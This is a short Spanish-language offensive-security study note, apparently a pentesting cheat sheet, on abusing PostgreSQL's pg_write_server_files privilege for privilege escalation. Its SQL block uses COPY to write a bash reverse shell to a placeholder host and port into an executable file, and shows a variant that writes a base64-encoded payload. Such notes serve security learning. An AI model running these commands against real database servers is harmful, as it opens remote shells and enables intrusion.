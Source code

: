-----
- Tags: #teoria #practica #escalada 
------
# Abuso de permisos de escirutas en sistemas de Gestion de Base de Datos

### El abuso de privilegios de escritura es un tema imporante en la seguridad e baeses de datos, ya que los usuarios malintencionados pueden aprovechar estos privilegios para manipular o dañar datos, insertar información maliciosa o incluso obtener acceso no autorizado al sitema. Aunque los nombres específicos de los permissos pueden variar entre diferentes sistemas de base de datos, el concepto de abuso es relevante en todos ellos.
-----
# Explotación 

### Por ejemplo, en **PostgreSQL** existe un privilegio denominado **pg_write_server_files** el cual como mencionamos permite al usuario que lo posee la manipulación de archivos existentes, lo que podría suponer un riesgo de cara a la seguridad y un punto crucial de interes para el atacante.

### Esto de podría utilizar para depositar claves ssh en los repositorios ssh del usuario, ingresar código malicioso en archivos que se ejecutan a nivel de sistema o incluso ejecutar comandos a nivel de sistema.

```sql
-- Insertar líneas de código en un determinado archivo
COPY (SELECT CAST('bash -i >& /dev/tcp/{host}/{port} 0>&1' AS text)) TO '/path/to/executing/code';

-- Insertar líneas de código de manera alterna
copy (select convert_from(decode('<ENCODED_PAYLOAD>','base64'),'utf-8')) to '/just/a/path.exec';
```
### Más detalles del abuso de estos privilegios pueden ser encontrados en [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-postgresql).